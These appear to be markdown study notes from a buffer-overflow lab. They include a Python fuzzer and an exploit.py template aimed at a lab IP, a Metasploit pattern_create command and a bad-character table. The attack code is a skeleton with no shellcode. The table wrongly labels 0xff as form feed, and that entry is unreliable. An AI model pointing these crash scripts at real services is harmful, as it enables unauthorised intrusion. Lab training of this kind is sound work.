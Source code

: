 # Buffer Overflows
## Mona Configuration
- Create a working folder with mona
````
!mona config -set workingfolder c:\mona\%p
````
## Fuzzing
- Python fuzzing script taken from Buffer Overflow room on THM:

````
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.230.146"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
  ````
- Run the `fuzzer.py` script using python: `python3 fuzzer.py`
- The fuzzer will send increasingly long strings comprised of As. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. Make a note of the largest number of bytes that were sent.
## Crash Replication & Controlling EIP
- Save as exploit.py
````
import socket

ip = "10.10.230.146"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
````
- Run the following command to generate a cyclic pattern of a length 400 bytes longer that the string that crashed the server (change the -l value to this):
````
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
````
- Copy the output and place it into the payload variable of the exploit.py script.
- Rerun the vulnerable piece of software.

## Common Bad Characters
````
0x00     NULL (\0)
0x09     Tab (\t)
0x0a     Line Feed (\n)
0x0d     Carriage Return (\r)
0xff     Form Feed (\f)
````















